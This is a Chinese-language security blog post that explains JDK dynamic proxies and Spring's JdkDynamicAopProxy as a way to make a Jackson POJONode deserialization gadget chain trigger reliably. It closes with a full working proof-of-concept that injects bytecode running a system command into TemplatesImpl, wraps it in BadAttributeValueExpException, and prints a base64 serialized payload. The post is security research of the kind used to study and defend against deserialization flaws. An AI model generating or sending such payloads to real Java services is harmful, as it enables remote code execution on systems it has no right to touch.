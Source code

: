 # JDK动态代理-AOP

  
  
&lt;!--more--&gt;  
## 0x00 前言  
在Java中动态代理是很强大的，被代理对象所能调用的方法取决于我们所给的接口，其功能取决于我们所给的`handler`。  
## 0x01 原理分析  
JDK动态代理需要了解两个类  
- `InvocationHandler`调用处理程序类和`Proxy`代理类  

`InvocationHandler`调用处理程序  
`public interface InvocationHandler`  
`InvocationHandler`是由代理实例的调用处理程序实现的接口  
每个代理实例都有一个关联的调用处理程序。  
`Object invoke(Object proxy,Method Method,Object[] args)`  
当在代理实例上调用方法的时候。会分派到其调用处理程序的`invoke()`方法  
`Proxy`代理类  
`public class Proxy extends Object implements Serializable`  
`Proxy`提供了创建动态代理类和实例的静态方法，它也是由这些方法创建的所有动态代理类的超类。  
动态代理类，是一个实现在类创建时在运行时指定的接口列表的类，具有如下所述的行为。 代理接口是由代理类实现的接口。 代理实例是代理类的一个实例。  
```  
public static Object newProxyInstance(ClassLoader loader, Class&lt;?&gt;[] interfaces, InvocationHandler h) throws IllegalArgumentException  
```  
demo  
```java  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.lang.reflect.Proxy;  
  
public class JDKProxy {  
    public static void main(String[] args) {  
        Object myProxy = Proxy.newProxyInstance(MyProxy.class.getClassLoader(), new Class[]{MyInterface1.class,MyInterface2.class}, new MyHandler());  
        for(Method m:myProxy.getClass().getDeclaredMethods()){  
            System.out.println(m.getName());  
        }  
    }  
}  
  
interface MyInterface1 {  
    public void sayYes();  
}  
  
interface MyInterface2 {  
    public void sayNo();  
}  
  
class MyProxy{  
    public void eat(){  
        System.out.println(&#34;eat&#34;);  
    }  
    public void say() {  
        System.out.println(&#34;say something&#34;);  
    }  
    public String getName(String a) {  
        return a;  
    }  
}  
class MyHandler implements InvocationHandler {  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        System.out.println(&#34;invoke dynamic proxy handler&#34;);  
        return null;  
    }  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060118523.png)
其反射获得到的方法完全是根据接口来的，不管被代理的类是否实现了对应的方法。动态代理中方法的实现都方法在了`handler`中的`invoke`方法中了，调用其任意方法都会在`invoke`方法中执行，所以看所给的接口和`handler`就可以了。  
而`javax.xml.transform.Templaes`接口其只有`newTransformer`和`getOutputProperties`这两个方法，让其作为我们代理所需要的接口，这样最终通过`getDeclaredMethods`获取到的方法就只有`newTransformer`和`getOutputProperties`了，最终获得的`getter`方法便只有`getOutputProperties`了。  
所以我们需要找一个`handler`，他的`invoke`方法中能执行我们所调用的方法即可。  
在`JdkDynamicAopProxy`是`Spring`框架中的一个类，它实现了JDK动态代理机制，用于创建代理对象来实现面向切面编程(AOP)的功能。  
`org.springframework.aop.framework.JdkDynamicAopProxy`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060130546.png)
重点看`invoke()`函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060131860.png)
这里会执行所调用的`method`，`target`获取到的对象是由`advised`属性得到的，我们所需要的`TemplatesImpl`的对象用`org.springframework.aop.framework.AdvisedSupport`封装。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133565.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133143.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060134674.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060135608.png)
构造`templatesImpl`封装一下  
```java  
Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
Constructor&lt;?&gt; constructor = clazz.getConstructor(AdvisedSupport.class);    
constructor.setAccessible(true);    
AdvisedSupport advisedSupport = new AdvisedSupport();    
advisedSupport.setTargetClass(templatesImpl);    
InvocatioHandler handler = (InvokeHandler) constructor.newInstance(advisedSupport);    
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
POJONode jsonNodes = new POJONode(proxyObj);  
```  
## 稳定Payload  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javassist.*;    
import org.springframework.aop.framework.AdvisedSupport;    
import javax.management.BadAttributeValueExpException;    
import javax.xml.transform.Templates;    
import java.io.*;    
import java.lang.reflect.*;    
import java.util.Base64;    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        ClassPool pool = ClassPool.getDefault();    
        CtClass ctClass0 = pool.get(&#34;com.fasterxml.jackson.databind.node.BaseJsonNode&#34;);    
        CtMethod writeReplace = ctClass0.getDeclaredMethod(&#34;writeReplace&#34;);    
        ctClass0.removeMethod(writeReplace);    
        ctClass0.toClass();    
    
        CtClass ctClass = pool.makeClass(&#34;a&#34;);    
        CtClass superClass = pool.get(AbstractTranslet.class.getName());    
        ctClass.setSuperclass(superClass);    
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);    
        constructor.setBody(&#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;);    
        ctClass.addConstructor(constructor);    
        byte[] bytes = ctClass.toBytecode();    
    
        Templates templatesImpl = new TemplatesImpl();    
        setFieldValue(templatesImpl, &#34;_bytecodes&#34;, new byte[][]{bytes});    
        setFieldValue(templatesImpl, &#34;_name&#34;, &#34;test&#34;);    
        setFieldValue(templatesImpl, &#34;_tfactory&#34;, null);    
        //利用 JdkDynamicAopProxy 进行封装使其稳定触发    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
        Constructor&lt;?&gt; cons = clazz.getDeclaredConstructor(AdvisedSupport.class);    
        cons.setAccessible(true);    
        AdvisedSupport advisedSupport = new AdvisedSupport();    
        advisedSupport.setTarget(templatesImpl);    
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);    
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
        POJONode jsonNodes = new POJONode(proxyObj);    
    
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);    
        Field val = Class.forName(&#34;javax.management.BadAttributeValueExpException&#34;).getDeclaredField(&#34;val&#34;);    
        val.setAccessible(true);    
        val.set(exp,jsonNodes);    
    
        ByteArrayOutputStream barr = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);    
        objectOutputStream.writeObject(exp);    
        objectOutputStream.close();    
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());    
        System.out.println(res);    
    
    }    
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{    
        Field f = obj.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(obj, arg);    
    }    
}  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jdk%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86-aop/  

